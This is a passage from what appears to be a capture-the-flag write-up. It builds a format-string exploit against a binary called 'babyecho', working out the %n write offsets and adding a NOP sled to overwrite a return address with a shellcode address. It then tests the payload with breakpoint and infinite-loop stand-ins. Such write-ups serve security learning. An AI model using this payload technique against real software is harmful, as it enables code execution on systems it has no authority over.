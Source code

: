 There we go! The shellcode is stored at 0xffffc6d0!

That means we need to write "d0 c6 ff ff" to the return address.

We start, as always, by writing our 16 bytes worth of addresses: '\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff' - that's the offset each of the 4 bytes of the return address.

The first byte we want to write to the return address is 0xd0 (208), which means that after the 16 bytes of addresses we need an additional 208 - 16 = 192 bytes: '%192x%7$n'

The second byte of our shellcode offset is 0xc6. To go from 0xd0 to 0xc6 we have to wrap around by adding 246 bytes (0xd0 + 246 = 0x01c6): '%246x%8$n'

The third byte is 0xff. 0xff - 0xc6 = 57: '%57x%9$n'

The fourth byte is also 0xff, which means we can either do %256x or just nothing: '%10$n'.

Putting it all together, we have:

<pre>
'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n'"$SHELLCODE"
</pre>

We have one small problem, though: when we calculated the address of the shellcode earlier, we didn't take into account the fact that we were going to wind up changing the format string. Because we changed it, buffer is going to be in a slightly different place. We'll solve that the easy way and just pad it with NOPs (no operation - 0x90):

<pre>
'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'"$SHELLCODE"
</pre>

Now, let's make sure all that's working by using either "\xcd\x03" or "\xcc" as shellcode. These both refer to a debug breakpoint and are really easy to see:

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90''\xcc' | ./babyecho &gt; /dev/null</span>
Trace/breakpoint trap (core dumped)
</pre>

Awesome! The second test string I always use is \xeb\xfe, which causes an infinite loop:

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90''\xeb\xfe' | ./babyecho &gt; /dev/null</span>
...nothing happens...
</pre>

